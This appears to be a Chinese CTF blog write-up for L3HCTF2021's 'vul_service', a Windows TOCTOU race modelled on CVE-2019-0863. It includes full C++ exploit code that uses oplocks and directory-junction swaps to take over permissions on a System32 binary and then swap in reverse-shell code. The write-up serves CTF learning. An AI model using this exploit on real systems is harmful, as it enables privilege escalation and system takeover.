

# L3HCTF2021 PWN
躺了个第一，被带飞了。
<!-- more -->
看了一下只有这题值得记录👇

## vul_service
### 分析
题目来自CVE-2019-0863，注册了一个系统服务，功能是会不断遍历tmp目录下文件，读取其权限并写回去，注意到是根据文件名来判断并且没有加锁，考虑使用TOCTOU来攻击。

参考[这篇文章](https://lucabarile.github.io/Blog/toctou/index.html)了解TOCTOU，比较好理解的一种条件竞争，使用SetOplock在读取时锁住，并修改符号链接即可非预期修改别的文件的权限。通过这里主要学到了很多windows的知识，如权限控制的DACL，计划任务等。

### 思路
感谢FMYY和2st的帮助。

首先在tmp同级创建一个target目录，其中创建同名文件vul_service.exe，这里建议从system32中直接复制出来并删除继承关系，这样就有了Attacker的权限。

主要思路就是在tmp创建一个符号链接指target，用SetOplock锁住该同名文件。当计划任务访问时，删除符号链接并创建一个指向system32的，就可以把权限写给System32中的漏洞程序，然后替换为反弹shell的恶意代码即可。

### exp
```cpp
#include "stdafx.h"
#include<tchar.h>
#include<strsafe.h>
#include "TcpClient.h"
static FileOpLock* oplock = nullptr;
static bstr_t target_2;
#define BUFSIZE 4096
void HandleOplock()
{

	DebugPrintf("OpLock Triggered");
	
	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

	si.cb = sizeof(STARTUPINFO);

	RemoveDirectoryW(L"C:\\Users\\Public\\tmp\\1");

	WCHAR CMDLine[BUFSIZE];
	ZeroMemory(CMDLine, BUFSIZE);
	StringCchCat(CMDLine, BUFSIZE, L"cmd /c mklink /J C:\\Users\\Public\\tmp\\1  C:\\Windows\\System32");

	CreateProcess(nullptr, CMDLine, nullptr, nullptr, FALSE, 0, nullptr, nullptr, &si, &pi);

	CloseHandle(pi.hThread);
	CloseHandle(pi.hProcess);

	Sleep(2000);
	
}

int _tmain(int argc, _TCHAR* argv[])
{
	wprintf_s(L"[+] hrnPA !\n");

	STARTUPINFO si;
	PROCESS_INFORMATION pi;

	ZeroMemory(&si, sizeof(STARTUPINFO));
	ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));

	si.cb = sizeof(STARTUPINFO);

	RemoveDirectoryW(L"C:\\Users\\Public\\tmp\\1");

	WCHAR CMDLine[BUFSIZE];
	ZeroMemory(CMDLine, BUFSIZE);
	StringCchCat(CMDLine, BUFSIZE, L"cmd /c mklink /J C:\\Users\\Public\\tmp\\1  C:\\Users\\Public\\target");

	CreateProcess(nullptr, CMDLine, nullptr, nullptr, FALSE, 0, nullptr, nullptr, &si, &pi);

	CloseHandle(pi.hThread);
	CloseHandle(pi.hProcess);
	//Sleep(2000);
	int sign = 0;
	if (argc < 2)
	{
		printf("Usage: SetOpLock target [rwdx]\n");
		printf("Share Mode:\n");
		printf("r - FILE_SHARE_READ\n");
		printf("w - FILE_SHARE_WRITE\n");
		printf("d - FILE_SHARE_DELETE\n");
		printf("x - Exclusive lock\n");
		sign = 1;
	}
	else
	{
		LPCWSTR target = argv[1];
		LPCWSTR share_mode = argc > 2 ? argv[2] : L"";

		oplock = FileOpLock::CreateLock(target, share_mode, HandleOplock);
		if (oplock != nullptr)
		{
			oplock->WaitForLock(INFINITE);
			delete oplock;

		}
		else
		{
			printf("Error creating oplock\n");
			return 1;
		}
	}
	if (sign) {
		TcpClient tcpClient;
		int iRes = 0;

		wprintf_s(L"[+] Trigger launched.\n");
		wprintf_s(L"[*] TCP connecting...\n");


		wprintf_s(L"[*] Waiting for the VulService to be Execute...\n");


		Sleep(50000);

		iRes = tcpClient.connectTCP("127.0.0.1", "1337");

		if (iRes != 0)
		{
			wprintf_s(L"[*] Retrying ...\n");

			iRes = tcpClient.connectTCP("127.0.0.1", "1337");
		}

		if (iRes != 0)
		{
			wprintf_s(L"[*] Retrying ...\n");


			iRes = tcpClient.connectTCP("127.0.0.1", "1337");
		}

		if (iRes != 0)
		{
			wprintf_s(L"[-] Exploit failed.");
		}
		else
		{
			wprintf_s(L"[+] Exploit successfull.");
		}
	}
	return 0;
}

```

效果如下：

此时替换为反弹shell的恶意代码即可。